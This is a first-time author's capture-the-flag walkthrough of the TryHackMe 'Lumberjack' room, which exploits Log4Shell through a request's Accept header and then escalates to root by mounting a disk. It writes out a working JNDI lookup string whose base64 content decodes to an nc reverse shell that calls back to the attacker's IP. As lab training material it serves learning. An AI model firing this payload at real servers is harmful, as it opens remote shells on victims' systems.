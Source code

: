 ```yaml
---

title: Lumberjack-THM

date: 2022-02-02 15:23:05 +0200

categories: [Log4j]

tags: THM 

---
```


## Status

 Hello everyone this is my first ctf writeup. Name of the box is Lumberjack from tryhackme, it’s based on Log4j (CVE-2021-44228) it is a medium level challenge.


Created by : SilverStr

Let’s start with basic recons

Recon:

nmap -sC -sV -Pn 10.10.120.161

![image](https://i.imgur.com/kkQdBV9.png)

Results from nmap showed 2 open ports

In ssh there is nothing to see so went to check up the http port 80.

\--------------------------------------------------------------------------------------------------------------------------------------

## lets start



![image](https://i.imgur.com/znguXwU.png)

Nothing to see in this port. After that I used burp to capture the request of this site.

![image](https://i.imgur.com/VeMZtpN.png) 

They give a resource to refer the log4j vulnerability. 

![image](https://i.imgur.com/uhrIwin.png)

**References used to make this room:**

- [Lunasec.io blog post on Log4Shell](https://www.lunasec.io/docs/blog/log4j-zero-day/)
- [Exploiting JNDI Injections in Java](https://www.veracode.com/blog/research/exploiting-jndi-injections-java)
- [CVE-2021-44228 – Log4j 2 Vulnerability Analysis](https://www.randori.com/blog/cve-2021-44228/)
- Malicious LDAP servers are fun. (Come on.... work for it a bit)

I send the request to repeater and I used basic payload of log4j to manipulate the request via the user agent but I didn’t get any proper response. 

![image](https://i.imgur.com/qjM9aJH.png)

I saw the accept “request header” in burp .so, I decided to send the payload via the accept header.

![image](https://i.imgur.com/Jnj3lL2.png)

I got the proper response via this accept header.

Let’s try to get shell using JNDIexploit...

Java -jar JNDIExlpoit-1.2-SNAPSHOT.jar -u

![image](https://i.imgur.com/uREj2Bv.png)

I used this payload for the reverse shell via nc.

Let’s set the exploit:

![image](https://i.imgur.com/GrsdUPz.png)

Reverse shell payload to base 64.

${jndi:ldap://10.8.19.239:1389/Basic/Command/Base64/cm0gL3RtcC9mO21rZmlmbyAvdG1wL2Y7Y2F0IC90bXAvZnxzaCAtaSAyPiYxfG5jIDEwLjguMTkuMjM5IDQ0NDQgPi90bXAvZg==}


![image](https://i.imgur.com/Cg2XA34.png)

I send the payload via the accept header. 

![image](https://i.imgur.com/37NrKQu.png)

Finally, I got the shell. Let’s find the 1st flag;

![image](https://i.imgur.com/ibUyBtP.png)

It’s a docker environment... I go to the opt directory for flag’s 


![image](https://i.imgur.com/lM2qnBa.png)



I got the 1st flag …

cat .flag1 

Let’s check for 2nd flag, after long time I decide to use linpease to know vulnerabilities.

I will set the python server to get the linpeas from my machine to that vuln machine.

![image](https://i.imgur.com/898sjck.png)

Let’s give the execute permission to the linpeas chmod +x linpeas.sh and run the linpeas

I saw the suid unmount in the bin directory..

![image](https://i.imgur.com/ZIYlfIi.png)

Let’s see what is in dev directory, I found some directories which is unmounted on disk.

![image](https://i.imgur.com/Ux2QzX9.png)  

Make the empty directory in the tmp directory ‘123’ to mount it. 

![image](https://i.imgur.com/44fEVXe.png)

After that I will go to the root directory which is on mounted folder ‘123’

![image](https://i.imgur.com/CWwj8DS.png)






On the root directory I saw the root.txt, but here I got depressed. 

![image](https://i.imgur.com/44YLZZF.png) 

After few moments I saw the directory which is ‘…’ 

cd …;ls -la

cat .\_fLaG2

![image](https://i.imgur.com/cyDyJ8y.png)

At last, I found the final flag. A wonderful medium level ctf to know what is log4j and how its working





`                          `……….….…………….Happy learning & Hunting ………………………




